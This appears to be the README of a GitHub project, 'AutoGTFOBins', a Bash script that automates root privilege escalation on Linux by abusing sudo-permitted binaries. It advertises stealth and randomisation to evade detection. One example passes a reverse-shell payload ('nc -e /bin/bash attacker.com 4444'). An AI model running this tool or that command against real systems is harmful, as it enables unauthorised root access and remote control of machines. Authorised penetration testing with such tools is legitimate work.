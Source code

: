 # 🚀✨ AutoGTFOBins Privilege Escalation Tool ✨🚀

[![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg)](https://opensource.org/licenses/MIT)

An advanced automated tool for privilege escalation on Linux systems by exploiting sudo binary permissions using GTFOBins techniques.

Created by [Mrx0rd](https://github.com/Wael-Rd)

![GTFOBins Privilege Escalation Tool](https://github.com/Wael-Rd/GTFOBins-Remastred/blob/main/Screenshot.png)

## Overview

The AutoGTFOBins Privilege Escalation Tool is a comprehensive Bash script that automates the process of identifying and exploiting sudo binary permissions to gain root access on Linux systems. It leverages the techniques documented in [GTFOBins](https://gtfobins.github.io/) to automatically test and exploit vulnerable binaries.

### Key Features

- **Automated Exploitation**: Automatically identifies and exploits sudo binary permissions
- **Parallel Execution**: Tests multiple exploits simultaneously for faster results
- **Interactive Mode**: Allows manual selection of binaries and exploit methods
- **Stealth Mode**: Reduces output and system impact to avoid detection
- **Self-Update**: Can update exploit techniques directly from GTFOBins
- **Randomization**: Randomizes exploit attempts to evade detection
- **Custom Payloads**: Supports custom command execution instead of default shells
- **Environment Awareness**: Adapts techniques based on container detection and system resources
- **Comprehensive Logging**: Detailed logs of all activities for later analysis

## Installation

```bash
# Clone the repository
git clone git@github.com:Wael-Rd/GTFOBins-Remastred.git

# Navigate to the directory
cd GTFOBins-Remastred

# Make the script executable
chmod +x auto-gtfobins-privesc.sh
```

## Usage

### Basic Usage

Run the script without any arguments to automatically detect and exploit sudo permissions:

```bash
./auto-gtfobins-privesc.sh
```

### Command-line Options

```bash
Usage: ./auto-gtfobins-privesc.sh [options]
Options:
  -i, --interactive    Run in interactive mode
  -s, --stealth        Run in stealth mode (reduced output)
  -u, --update         Update exploits from GTFOBins
  -r, --randomize      Randomize exploit attempts
  -p, --parallel N     Run N exploits in parallel (default: 3)
  -t, --timeout N      Set timeout for exploits in seconds (default: 5)
  --payload 'CMD'      Use custom payload instead of /bin/sh
  -h, --help           Show this help message
```

### Examples

#### Run in Interactive Mode

```bash
./auto-gtfobins-privesc.sh -i
```

This allows you to select specific binaries and exploit methods to try.

#### Run in Stealth Mode

```bash
./auto-gtfobins-privesc.sh -s
```

Reduces output and system impact to minimize detection risk.

#### Custom Parallel Execution and Timeout

```bash
./auto-gtfobins-privesc.sh -p 5 -t 10
```

Runs 5 exploits in parallel with a 10-second timeout for each attempt.

#### Use a Custom Payload

```bash
./auto-gtfobins-privesc.sh --payload 'nc -e /bin/bash attacker.com 4444'
```

Executes a custom command instead of spawning a shell.

## How It Works

1. The script first checks for sudo permissions using `sudo -l`
2. It extracts the list of allowed binaries from the output
3. For each binary, it checks if there's a known GTFOBins exploitation technique
4. It attempts to execute the exploit techniques in parallel
5. If successful, it provides a root shell or executes the specified payload

## Supported Binaries

The tool supports a wide range of binaries documented in GTFOBins, including but not limited to:

- Shell execution: bash, dash, zsh, ksh, etc.
- File operations: cat, cp, mv, find, etc.
- Editors: vim, nano, emacs, etc.
- Programming languages: python, perl, ruby, php, etc.
- Network tools: curl, wget, nc, etc.
- Package managers: apt, pip, etc.

## Security Considerations

This tool is designed for security professionals, penetration testers, and system administrators to test and secure their systems. Unauthorized use on systems without explicit permission is illegal and unethical.

## Contribution

Contributions are welcome! Please feel free to submit a Pull Request.

## License

This project is licensed under the MIT License - see the LICENSE file for details.

## Disclaimer

This tool is provided for educational and professional security testing purposes only. The authors are not responsible for any misuse or damage caused by this tool.

## Acknowledgements

- [GTFOBins](https://gtfobins.github.io/) for documenting these techniques
- [Mrx0rd](https://github.com/Wael-Rd) - Creator and maintainer
- All contributors to the project
